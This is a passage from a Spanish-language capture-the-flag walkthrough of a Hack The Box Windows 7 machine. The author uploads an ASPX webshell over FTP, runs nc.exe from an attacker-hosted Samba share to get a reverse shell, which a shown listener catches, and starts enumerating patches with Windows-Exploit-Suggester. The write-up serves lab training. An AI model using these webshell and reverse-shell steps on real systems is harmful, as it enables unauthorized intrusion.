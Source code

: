 
![](https://lh6.googleusercontent.com/lZANjP9MkVncWWCgXwsKSU50uDWX4nGpb-QenlFvPD3Xu-zIUPc_MnxsnehOR1hO1LdcfoZ-msCnTuutcRwhbGimmt-qPWIOAgCJmhJNTZc5XKgHNAJ_RYxglPD2gB93ujxneG2K)

Eso significa que nosotros podemos subir una shell en `aspx ` para poder ejecutar comandos a nivel de sistema.

# Shell como el usuario iis apppool\web

Rápidamente me muevo una copia de `cmdasp.aspx ` que viene incluida en kali Linux, la muevo a mi directorio de trabajo, después la subimos al servicio FTP y accedemos a esta mediante el navegador.
![](https://lh3.googleusercontent.com/oTAcgmid4yVaylkn2We7i4cZFUQgKUuVDVXpPkZsZ3sAlCdoDBQI5oTQdE6h-WFTziGRR9AOFTRyIJZOFqIswwxRyAfTn34GZ3A3rYidaQjnPmXEI2bo3NnzpPFrmY8O2IlnuDo7)

![](https://lh4.googleusercontent.com/4OH2jtA-jwKZ6HeegnBq3a5x5oM3Ra8V7wg5HqrpC0M2jVZXp3L1B8eBxHXUVe9xi7cDq-DOVfyfqy_RcW6rVh-jSDfYsxhKcyb9fIqg1LR3PNcG4EzrUiBOpzjDyKB0cZMzIW8A)

Bien, ya podemos ejecutar comandos.

Lo que haremos a continuación será levantar un servidor samba que comparta el binario de `nc.exe` para  directamente ejecutarlo desde mi servidor samba.

![](https://lh6.googleusercontent.com/W-MLRaPm4H1OqaAwKOvvvHD7KrTKPHw1Fpl1PwQWZzAlf-v7FDk1TxXJ7yp3SsxrgC_BG44-qIRAUzUgNwGw8dRJWyKQIItxTOEWu_ENXqXkEBqUPLA4iH7ZIDy3rVajReCLfqXt)

![](https://lh3.googleusercontent.com/wrhcx9zlHKXj1mCEx6GzLFVHG7WOimRmbdTrDMUwvC8ew8KYGbH4ZWNXQMrrzqZZCEexW2Lw8EMqf1OAUq0ByTiIuSoYUU4paDBbsL1QoclMVFINycLE52FpA4gfKB9zmwoA1j-q)

```console
intrusionz3r0@kali:~$ rlwrap nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.20] from devel.htb [10.10.10.5] 49179
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
 ```

**¡¡Eureka!!**
Tenemos shell.
# Post-Enumeración
Comienzo a enumerar la máquina y me doy cuenta de algo interesante cuando reviso la información del sistema.

![](https://lh5.googleusercontent.com/5xuk4imjzu2JedOoySOjXNMUVw5HlQeZcjymMOjWmtrWrRy492VHZFDDPfe1Iv4rTVidxDk48wNh2XgLGPtSGiviwPS5yCoiiOajFr3XE9rsedVXJIzcpx70uNePwfkV90DGImBn)

El sistema operativo es Windows 7 y este no esta actualizado por lo que es muy probable de que le falte algún parche de seguridad.

Para comprobarlo voy a copiarme la salida del comando `systeminfo` y la voy a pasar a mi máquina.

Después me descargare el siguiente repositorio: [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester). 

Una vez descargado, actualizamos la base de datos y ejecutamos el análisis.

```console
intrusionz3r0@kali:~$ sudo ./windows-exploit-suggester.py --update                                               
[*] initiating winsploit version 3.3...
[+] writing to file 2020-08-27-mssb.xls
[*] done

intrusionz3r0@kali:~$ sudo ./windows-exploit-suggester.py --database 2020-08-25-mssb.xls --systeminfo sysinfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
```